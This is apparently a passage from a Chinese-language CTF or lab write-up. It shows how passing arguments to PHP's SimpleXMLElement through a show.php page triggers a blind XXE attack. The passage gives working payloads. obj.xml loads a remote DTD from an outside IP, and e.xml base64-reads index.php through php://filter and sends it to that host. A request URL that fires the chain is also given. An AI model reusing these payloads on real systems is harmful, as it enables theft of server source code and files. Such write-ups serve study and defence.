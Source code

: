 ![image-20231102145734824](assets/image-20231102145734824.png)

可以看到通过设置第三个参数为`true`，可实现远程xml文件载入。第二个参数的常量值我们设置为`2`即可。第二个参数可定义的所有常量在这里。第一个参数就是我们自己设置的payload的地址，用于引入外部实体。

我们构造的xml如下~

**obj.xml**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE try[
<!ENTITY % int SYSTEM "http://174.0.159.143/e.xml">
%int;
%all;
%send;
]>
```

**e.xml**

```
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://174.0.159.143/?%payl;'>">
```

然后进入`show.php`页面~~我们的参数为：

```
/show.php?module=SimpleXMLElement&args[]=http://174.0.159.143/obj.xml&args[]=2&args[]=true
```

第一个参数为我们`obj.xml`的地址，这样就能加载obj.xml，再加载e.xml，网站的源码带出~~

function.php

```php
<?php

function sql_result($sql,$mysql){
	if($result=mysqli_query($mysql,$sql)){
		$result_array=mysqli_fetch_all($result);
		return $result_array;
	}else{
		 echo mysqli_error($mysql);
		 return "Failed";
	}
}

```